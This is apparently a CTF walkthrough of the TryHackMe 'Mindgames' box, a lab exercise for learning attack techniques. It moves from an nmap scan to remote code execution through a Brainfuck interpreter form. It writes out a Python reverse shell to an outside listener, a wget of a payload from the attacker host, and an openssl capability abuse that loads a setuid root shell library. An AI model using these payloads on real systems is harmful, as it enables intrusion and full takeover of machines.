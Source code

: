 # Mindgames [THM](https://tryhackme.com/room/mindgames)

Let's see what this box has

```bash
nmap -sV -A -T4 -Pn 10.10.108.104

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-28 10:51 GMT
Nmap scan report for 10.10.108.104
Host is up (0.026s latency).
Not shown: 998 closed ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.11 seconds
```

Let's explore the service n port 80

```bash
curl http://10.10.108.104:80

<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Mindgames.</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" type="text/css" media="screen" href="/main.css">
    <script src="/main.js"></script>
</head>

<body onload="onLoad()">
    <h1>Sometimes, people have bad ideas.</h1>
    <h1>Sometimes those bad ideas get turned into a CTF box.</h1>
    <h1>I'm so sorry.</h1> <!-- That's a lie, I enjoyed making this. -->
    <p>Ever thought that programming was a little too easy? Well, I have just the product for you. Look at the example code below, then give it a go yourself!</p>
    <p>Like it? Purchase a license today for the low, low price of 0.009BTC/yr!</p>
    <h2>Hello, World</h2>
    <pre><code>+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.</code></pre>
    <h2>Fibonacci</h2>
    <pre><code>--[----->+<]>--.+.+.[--->+<]>--.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.++[++>---<]>+.-[-->+++<]>--.>++++++++++.[->+++<]>++....-[--->++<]>-.---.[--->+<]>--.+[----->+<]>+.-[->+++++<]>-.--[->++<]>.+.+[-->+<]>+.[-->+++<]>+.+++++++++.>++++++++++.[->+++<]>++........---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[->+++++<]>-.[-->+++<]>+.>++++++++++.[->+++<]>++....---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[->+++++<]>-.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.++++.--------.++.-[--->+++++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.+++++.---------.>++++++++++...[--->+++++<]>.+++++++++.+++.[-->+++++<]>+++.-[--->++<]>-.[--->+<]>---.-[--->++<]>-.+++++.-[->+++++<]>-.---[----->++<]>.+++[->+++<]>++.+++++++++++++.-------.--.--[->+++<]>-.+++++++++.-.-------.-[-->+++<]>--.>++++++++++.[->+++<]>++....[-->+++++++<]>.++.---------.+++++.++++++.+[--->+<]>+.-----[->++<]>.[-->+<]>+++++.-----[->+++<]>.[----->++<]>-..>++++++++++.</code></pre>
    <h2>Try before you buy.</h2>
    <form id="codeForm">
        <textarea id="code" placeholder="Enter your code here..."></textarea><br>
        <button>Run it!</button>
    </form>
    <p></p>
    <label for="outputBox">Program Output:</label>
    <pre id="outputBox"></pre>
</body>
</html>
```

*We have an encoder/decoder?*

Pasting the first code we found on page into the textarea 

> +[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.

We get back

> Hello, world

---

Unfortunately, I wasn't able to get more information from my further enumeration.

---


Using the content (encoded) on the page I was able to find out that the encoding language used on this site is [brainfuck](https://www.dcode.fr/brainfuck-language).

We can see that by decoding some of the content on the page.

> +[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.

> print("Hello, World")


So I went on to encode the following code

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.21.99",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

which gave me a reverse shell from the server

```bash
nc -nvlp 4444

listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.108.104] 35686
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)

$ ls -ail /home
total 16
131074 drwxr-xr-x  4 root      root      4096 May 11  2020 .
     2 drwxr-xr-x 24 root      root      4096 May 11  2020 ..
539761 drwxr-xr-x  6 mindgames mindgames 4096 May 11  2020 mindgames
266998 drwxr-x---  5 tryhackme tryhackme 4096 May 11  2020 tryhackme

$ ls -ail /home/mindgames/
total 40
539761 drwxr-xr-x 6 mindgames mindgames 4096 May 11  2020 .
131074 drwxr-xr-x 4 root      root      4096 May 11  2020 ..
539770 lrwxrwxrwx 1 mindgames mindgames    9 May 11  2020 .bash_history -> /dev/null
539764 -rw-r--r-- 1 mindgames mindgames  220 May 11  2020 .bash_logout
539763 -rw-r--r-- 1 mindgames mindgames 3771 May 11  2020 .bashrc
539767 drwx------ 2 mindgames mindgames 4096 May 11  2020 .cache
539765 drwx------ 3 mindgames mindgames 4096 May 11  2020 .gnupg
539774 drwxrwxr-x 3 mindgames mindgames 4096 May 11  2020 .local
539762 -rw-r--r-- 1 mindgames mindgames  807 May 11  2020 .profile
539779 -rw-rw-r-- 1 mindgames mindgames   38 May 11  2020 user.txt
539769 drwxrwxr-x 3 mindgames mindgames 4096 May 11  2020 webserver

$ cat /home/mindgames/user.txt
thm{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

---

Going after the root flag wasn't easy I went through [linux enumeration](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and wasn't lucky.

Looking at other write-ups I noticed the use of [linPeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) so I went for it. LinPeas revealed 


```bash
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                 
Current capabilities:                                                                                        
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
```

Many tries and fails later I found this [gtfobins](https://gtfobins.github.io/gtfobins/openssl/#library-load)

```bash
Library load

It loads shared libraries that may be used to run code in the binary execution context.

    openssl req -engine ./lib.so
```

On my machine I created `openssl.c` which I then compiled to `openssl.so`

```bash
cat openssl.c

#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```

```bash
gcc -fPIC -o openssl.o -c openssl.c
```

```bash
ls

total 16                                                                                                     
12452215 drwxr-xr-x 2 clobee 4096 Dec 28 18:19 .                                                             
10224705 drwxr-xr-x 3 clobee 4096 Dec 28 10:51 ..                                                            
12454536 -rw-r--r-- 1 clobee  122 Dec 28 18:18 openssl.c                                                     
12454535 -rw-r--r-- 1 clobee 1840 Dec 28 18:19 openssl.o
```

```bash                                                    
gcc -shared -o openssl.so -lcrypto openssl.o
```

```bash
ls                                                                            
total 32                                                                                                     
12452215 drwxr-xr-x 2 clobee  4096 Dec 28 18:19 .                                                            
10224705 drwxr-xr-x 3 clobee  4096 Dec 28 10:51 ..                                                           
12454536 -rw-r--r-- 1 clobee   122 Dec 28 18:18 openssl.c                                                    
12454535 -rw-r--r-- 1 clobee  1840 Dec 28 18:19 openssl.o                                                    
12454537 -rwxr-xr-x 1 clobee 16024 Dec 28 18:19 openssl.so   
```

I then started a HTTP server

```bash
python -m SimpleHTTPServer 8080 

Serving HTTP on 0.0.0.0 port 8080 ...                                                                        
10.10.151.253 - - [28/Dec/2020 18:24:06] "GET /openssl.so HTTP/1.1" 200 -  
```

and downloaded the `openssl.so` on the server

```bash
$ wget http://[ATTACKER_IP]:8080/openssl.so

--2020-12-28 18:24:04--  http://[ATTACKER_IP]:8080/openssl.so
Connecting to [ATTACKER_IP]:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16024 (16K) [application/octet-stream]
Saving to: ‘openssl.so’

     0K .......... .....                                      100%  618K=0.03s

2020-12-28 18:24:04 (618 KB/s) - ‘openssl.so’ saved [16024/16024]
```

```bash
$ chmod +x openssl.so

$ openssl req -engine ./openssl.so
id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)

ls -ail /root
total 28
524292 drwx------  4 root root 4096 May 11  2020 .
     2 drwxr-xr-x 24 root root 4096 May 11  2020 ..
539760 lrwxrwxrwx  1 root root    9 May 11  2020 .bash_history -> /dev/null
525200 -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
539771 drwxr-xr-x  3 root root 4096 May 11  2020 .local
525201 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
539701 drwx------  2 root root 4096 May 11  2020 .ssh
539775 -rw-r--r--  1 root root   38 May 11  2020 root.txt

cat /root/root.txt
thm{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

